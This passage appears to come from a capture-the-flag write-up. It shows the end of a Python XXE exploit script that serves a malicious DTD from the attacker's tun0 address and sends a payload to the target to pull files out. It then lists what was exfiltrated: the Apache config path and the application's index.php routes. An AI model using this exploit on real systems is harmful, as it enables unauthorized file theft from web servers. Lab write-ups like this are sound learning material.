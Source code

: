 ```py
        init_dtd(ip=tun0_ip, filename=sys.argv[1])
    except IndexError as e:
        exit("Usage: script.py <filename>")

    # Create the event object and start the server in a separate thread
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True
    server_thread.start()

    is_session = init_session(url=host, username=rnd_word, password=rnd_word)
    if is_session:
        send_payload(url=host, ip=tun0_ip)
    else:
        exit("[-] Unknown session!")

```

![](screenshots/xxe-exfil-src-demo.gif)


* Got the main webroot path `/var/www/collect/public` from apache site config file `/etc/apache2/sites-available/000-default.conf`

`/var/www/collect/public/index.php` source code.
```php
<?php

require '../bootstrap.php';

use app\classes\Routes;
use app\classes\Uri;


$routes = [
    "/" => "controllers/index.php",
    "/login" => "controllers/login.php",
    "/register" => "controllers/register.php",
    "/home" => "controllers/home.php",
    "/admin" => "controllers/admin.php",
    "/api" => "controllers/api.php",
    "/set/role/admin" => "controllers/set_role_admin.php",
    "/logout" => "controllers/logout.php"
];

$uri = Uri::load();
require Routes::load($uri, $routes);
```
